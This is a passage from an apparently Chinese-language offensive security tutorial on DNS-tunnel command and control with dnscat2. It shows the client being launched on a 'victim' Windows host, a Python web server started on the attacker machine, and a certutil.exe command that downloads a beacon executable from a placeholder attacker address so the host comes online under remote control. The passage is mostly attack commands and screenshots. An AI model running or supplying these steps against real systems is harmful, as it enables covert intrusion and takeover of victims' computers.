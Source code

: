 3、客户端（受害者），启动服务

```bash
dnscat2-v0.07-client-win32.exe --secret=000000 log.xxx.xxx --delay 5000
```

[![](assets/1708095858-237f3dca6fcf7b1087ba3f58ddac63cd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230502203236-6b9fa898-e8e5-1.png)

4、远程下载 beacon 执行上线

服务器利用 python 启临时 web 服务

```bash
python3 -m http.server 4444
```

[![](assets/1708095858-271af39071410ce59630a5059d4daca6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230502203247-721bcd1e-e8e5-1.png)

服务端进入 shell，通过 certutil.exe 远程下载 beacon 上线主机

```bash
certutil.exe -urlcache -split -f http://x.x.x.x:4444/beacon.exe C:\Users\Public\beacon.exe
```

[![](assets/1708095858-745dfec58df50324d8658c991f5f3cc2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230502203257-77e7ead4-e8e5-1.png)
